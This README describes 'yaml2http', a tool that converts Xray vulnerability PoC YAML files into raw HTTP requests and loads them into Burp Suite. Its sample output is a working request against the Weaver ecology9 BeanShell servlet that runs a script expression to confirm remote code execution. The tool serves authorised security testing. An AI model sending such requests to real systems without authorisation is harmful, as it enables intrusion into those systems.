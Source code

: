 # yaml2http

一个将`Xray`的`Poc`转换成`http`请求明文的小工具，便于在`Burp Suite`一类的工具中使用。
与杜老师交流`Poc`存储问题而引出的产物，采用了一个简易版的基于`Xray`的`Poc`标准，它只支持描述`http`协议。目前功能尚不完善，还在开发中...

## Usage

当`Poc`的请求结构中包含不可打印字符时，推荐以插件形式载入`Poc`至`Burp Suite`中使用。

### CLI

运行

```bash
java -jar yaml2http-1.0.jar -p poc-yaml-ecology9-beanshell-rce.yaml
```

输出如下

```http
POST /weaver/bsh.servlet.BshServlet HTTP/1.1
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36 Edg/104.0.1293.47
Connection: close
Host: localhost
Content-Length: 87

bsh.script=print%2842503*40455%29&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw
```

### Burp Suite Extension

支持在`Burp Suite`中以插件形式进行使用，这种方式可以避免不可打印字符的问题。

使用方式，从`Extender`导入下载或编译的`jar`包

![](images/20220823113410.png)

进入`Repeater`页面，鼠标右键打开菜单并选择`Extension -> Yaml Poc Loader -> Import`，并选择需要载入的文件

![](images/20220823113616.png)

加载完成后如下，默认指定`localhost:80`作为目标。

![](images/20220823113627.png)

## Todo

* [X] 完成`yaml`解析，读取已支持字段值
* [X] 完成变量定义外的`http`文本转换
* [X] 完成变量定义和表达式解析（已初步完成主体框架，后续补充方法功能即可）
* [ ] 完成`Content-Type`自识别（但`body`数据过短会引起判断失误，推荐`poc`中自行指定）
* [x] 完成变量定义字段其他方法的支持

